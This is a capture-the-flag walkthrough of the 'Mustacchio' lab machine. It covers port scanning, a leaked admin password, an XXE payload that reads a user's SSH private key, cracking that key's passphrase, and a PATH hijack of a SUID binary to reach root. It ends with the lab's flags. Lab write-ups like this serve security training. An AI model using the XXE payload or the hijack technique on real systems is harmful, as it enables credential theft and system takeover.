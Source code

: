 # MUSTACCHIO

![](../.gitbook/assets/9467a25cbcc84755a81b1cd255efb5b8.png)

## NMAP SCAN

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
```

## FUZZING

![](../.gitbook/assets/5e937240c571438e99d75b405bf2148e.png)

![](../.gitbook/assets/4c9c4e03cbbe4c03b03c82bc6a6bc0cf.png)

### /CUSTOM

![](../.gitbook/assets/1f6c7eb103714a19941222f634df1bd8.png)

![](../.gitbook/assets/6c6a0777f6a64cf9b1fa5b13b48c8bd4.png)

![](../.gitbook/assets/5e937240c571438e99d75b405bf2148e.png)

```text
admin:bulldog19
```

## LOGIN

![](../.gitbook/assets/f569132f75a74e4282dc19ea326a19ec.png)

### In VIEW-SOURCE

![](../.gitbook/assets/bb808943b9384de589b9d72b19fe2338.png)

### TEST COMMENT

Something is wrong. We know that the application is using a xml request but the parameters were null.

![](../.gitbook/assets/2b021c64190042a9a2882c8ba304db47.png)

![](../.gitbook/assets/34c74fb2e7bb497b84984475a18a84e5.png)

In code, we see that is an example request in the server.

![](../.gitbook/assets/b6796bd2f8eb48bb976a83ec8ff929c8.png)

Lets see the xml request example

![](../.gitbook/assets/d280dccc139248b09d14676a456bde11.png)

## EXPLOIT XXE

* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection\#detect-the-vulnerability

![](../.gitbook/assets/a9ed523cbbe64a62a216450fbaaf54a8.png)

![](../.gitbook/assets/4b4a4cc714c240eabfd61941ada39c0e.png)

Remember the comment in the page code. Lets obtain the id\_rsa of barry to SSH Login.

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:////home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&name;</name>
  <author>myself</author>
  <com>just a comment</com>
</comment>
```

![](../.gitbook/assets/a826c2412892461394bd46ab8ee15de0.png)

The id\_rsa is encrypted. Lets use John the Ripper.

![](../.gitbook/assets/15612c0adfc14a9baf424dc38bbd4211.png)

```text
urieljames
```

### SSH LOGIN

![](../.gitbook/assets/596c3a82e0024754be18c082cb405109.png)

## PRIVESC

### SUID FILES

There´s a SUID file interesting, running by root

![](../.gitbook/assets/54e4be6a088242dbb7e74a1575756488.png)

![](../.gitbook/assets/0d2f6b2d05a94f55a00605e598924c46.png)

When we run this SUID show us the log

![](../.gitbook/assets/e6dc4d67686d4677a477d2eb099a95fb.png)

With strings command, we found out that is calling the tail command without path

![](../.gitbook/assets/e8dd41d921114f198e39420bab319f08.png)

Lets Create a tail binary and add the to our path.

![](../.gitbook/assets/c2ea04d672ce4d628db9dfd721eb8574.png)

When we run the binary, WE BECAME ROOT!! :\)

![](../.gitbook/assets/262954bb135141158056a23189bd2b5c.png)

## FLAGS

### USER.TXT

```text
62d77a4d5f97d47c5aa38b3b2651b831
```

### ROOT.TXT

```text
3223581420d906c4dd1a5f9b530393a5
```

